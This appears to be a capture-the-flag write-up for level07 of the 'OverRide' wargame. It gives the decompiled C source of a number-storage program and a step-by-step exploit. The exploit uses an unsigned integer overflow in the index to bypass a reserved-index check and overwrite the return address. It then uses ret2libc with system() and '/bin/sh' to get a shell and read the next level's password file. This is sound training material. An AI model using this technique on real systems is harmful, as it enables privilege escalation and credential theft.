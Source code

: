 # Level07

## Code
```
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <stdbool.h>

void clear_stdin(void)
{
  char  c = 0;
  
  while (c != -1)
  {
    c = getchar();
    if (c == '\n') {
      return;
    }
  }
  return;
}

int get_unum(void)
{
  int local_10[4];
  
  local_10[0] = 0;
  fflush(stdout);
  scanf("%u",local_10);
  clear_stdin();
  return local_10[0];
}

int store_number(int *integer)
{
  unsigned int n;
  unsigned int index;
  
  printf(" Number: ");
  n = get_unum();
  printf(" Index: ");
  index = get_unum();
  if ((index % 3 == 0) || (n >> 24 == 183)) {
    puts(" *** ERROR! ***");
    puts("   This index is reserved for wil!");
    puts(" *** ERROR! ***");
    return 1;
  }
  else {
    integer[index] = n;
    return 0;
  }
}

int read_number(int *integer)
{
  unsigned int n;
  
  printf(" Index: ");
  n = get_unum();
  printf(" Number at data[%u] is %u\n", n, integer[n]);
  return 0;
}


int main(int argc,char **argv,char **envp)
{
  int   read_ret = 0;
  char  buf[20] = {0};
  int   integer[100] = {0};

  for (char **i = argv; *i != (char *)0x0; i++) {
    memset(*i, 0, strlen(*i) - 1);
  }
  for (char **i = envp; *i != (char *)0x0; i++) {
    memset(*i, 0, strlen(*i) - 1);
  }
  puts(
      "----------------------------------------------------\n  Welcome to wil\'s crappy number storage service!   \n----------------------------------------------------\n Commands:                                          \n    store - store a number into the data storage    \n    read  - read a number from the data storage     \n    quit  - exit the program                        \n----------------------------------------------------\n   wil has reserved some storage :>                 \n----------------------------------------------------\n"
      );
  while (1) {
    printf("Input command: ");
    fgets(buf, 20, stdin);
    buf[strlen(buf) - 1] = 0;

    if (!strncmp(buf, "store", 5)) {
      read_ret = store_number(integer);
    }
    else if (!strncmp(buf, "read", 4)) {
      read_ret = read_number(integer);
    }
    else if (!strncmp(buf, "quit", 4)) {
      return 0;
    }
    if (read_ret == 0) {
      printf(" Completed %s command successfully\n", buf);
    }
    else {
      printf(" Failed to do %s command\n", buf);
    }
    memset(&buf, 0, 20);
  };
}
```

## Explanation

- This program allows the user to store number in an int array of length 100. It works with 3 commands : `store`, `read` and `quit`.

- Very quickly we realised that we could `store` and `read` information further than index 100, which made us think it would be possible to overwrite the return address of the main function. So our first goal was to find where this address was located in the stack.

- Thanks to gdb, we calculated the size of the main function's stack frame by:

   - substracting the value stored in esp from the value stored in ebp after setting a breakpoint at some point in the function : 4294956824 - 4294956336 = 488 bytes of stack frame.

   - Thanks to this line in disass main:`lea    0x24(%esp),%ebx`, we can see that the memory space of the int array[100] is located 36 bytes above esp.

   - We know that an array of 100 int takes 400 bytes, so if we add these 400 bytes to the 36 bytes offset from esp, we get the value 436. Still 52 (or 13 * 4) bytes away from ebp. We know our return address can normally be found at ebp + 4, therefore if we try to access the index 114 of our array, we should be able to modify the return address of our main function, to redirect the program where we need to when the command `quit` is given. 

- But there's another problem : the program implements some kind of protection on any index that is divisable by 3. The user can read these indexes but cannot store anything in them.

- By looking at how the program writes a value at an index: `*(uint *)(uVar2 * 4 + param_1) = uVar1;` we found a solution that consisted in using an unsigned int overflow to give a specific index that would not be divisible by 3 but would, once multiplied by four and being added our index, allow us to loop back to small values and fall back precisely on 114. Basically, uintmax / 4 + 114 + 1

- 4294967295 / 4 + 114 + 1 = 1073741938

- To make sure we fell on the right place, we tested this :
```
Input command: store
 Number: 0
 Index: 1073741938
 Completed store command successfully
Input command: read
 Index: 114
 Number at data[114] is 0
 Completed read command successfully
Input command: quit

Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
```

- Clearly, we were able to store something at index 114, and this was indeed our return address !

- The first idea we had was to store our shellcode in an env variable, but we then realised that the program seems to implement some protection by calling `memset()` to replace our env variables by null bytes.

- One of the other options, probably the most simple one, was to try a ret2libc by replacing the return address at index 114 by the address of `system()` and storing at index 116 the address of the string "/bin/sh". We could leave whatever was in index 115 since we don't really care about the return address as long as we can start a shell.

- We found these two addresses this way :
   - command `p system` in gdb gave us the address 0xf7e6aed0 (4159090384 in decimal)
   - command `find __libc_start_main,+99999999,"/bin/sh"` in gdb gave us the address 0xf7f897ec (4160264172 in decimal)

- Now we have all the needed information !

## Exploit 

```
level07@OverRide:~$ ./level07 
----------------------------------------------------
  Welcome to wil's crappy number storage service!   
----------------------------------------------------
 Commands:                                          
    store - store a number into the data storage    
    read  - read a number from the data storage     
    quit  - exit the program                        
----------------------------------------------------
   wil has reserved some storage :>                 
----------------------------------------------------

Input command: store
 Number: 4159090384
 Index: 1073741938
 Completed store command successfully
Input command: store
 Number: 4160264172
 Index: 116
 Completed store command successfully
Input command: quit
$ whoami
level08
$ cat /home/users/level08/.pass
```